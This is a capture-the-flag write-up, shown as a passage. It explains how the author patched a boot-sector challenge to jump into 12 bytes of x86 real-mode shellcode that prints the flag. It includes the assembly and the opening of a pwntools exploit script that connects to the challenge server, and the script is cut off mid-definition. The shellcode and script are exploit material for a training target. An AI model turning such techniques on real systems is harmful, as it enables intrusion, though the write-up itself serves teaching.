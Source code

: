 ![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/d1f3746d-0fff-4043-9bf1-45b7cd13a629)

So, I can write shellcode into somewhere that can leak the flag and modify `endless_dead` jumping into the shellcode.

The problem is that in `sub_37`, it compares the value of the scan code ( `ah` ) instead of the character ( `al`).

After asking the chatGPT, I know that typing the up arrow key makes `ah = 0x48`, the down one makes `ah = 0x50`.

![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/521a6421-2320-46a8-b92a-59d92ec13056)

At the first time, I had tried to write the shellcode at 0x7c67 ( offset = 0x63 ).

![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/dbc838ab-4382-4674-acfa-75f28dc5b20e)

But it returned `ah = 0x48 ` and `al = 0x0`, I did't know why so I decided to write the shellcode at `0x7c09` ( offset = 5 ), the max size of the shellcode is 13 bytes
because the `start` function is at `0x7c16`.

Luckily, the size of the shellcode is 12-byte.
```x86asm
mov si, 0x7dc6
t:
mov al, [si]
mov ah, 0x0E
int 0x10
inc si
jmp t 
```

So, the way I used was that writting the shellcode into `0x7c09` and modifing the `endless_dead` jumping into `0x7c09`.

Final script:
```python
from pwn import *
from time import sleep

UP = b'\033[A'
DOWN = b'\033[B'
PREV = [0xFA, 0x31, 0xC0, 0x8E, 0xD8, 0x8E,
        0xC0, 0x8E, 0xD0, 0xBC, 0xFF, 0xFF, 0xFB]

"""
mov si, 0x7dc6
t:
mov al, [si]
mov ah, 0x0E
int 0x10
inc si
jmp t 
"""
SHELLCODE = [190, 198, 125, 138, 4, 180, 14, 205, 16, 70, 235, 0xf7]

if args.REMOTE:
    p = process(["bash", "-c", "nc 13.201.224.182 30297"])
else:
    p = process(["./run.sh"])

p.recv()

pause()


def add_one(offset):
```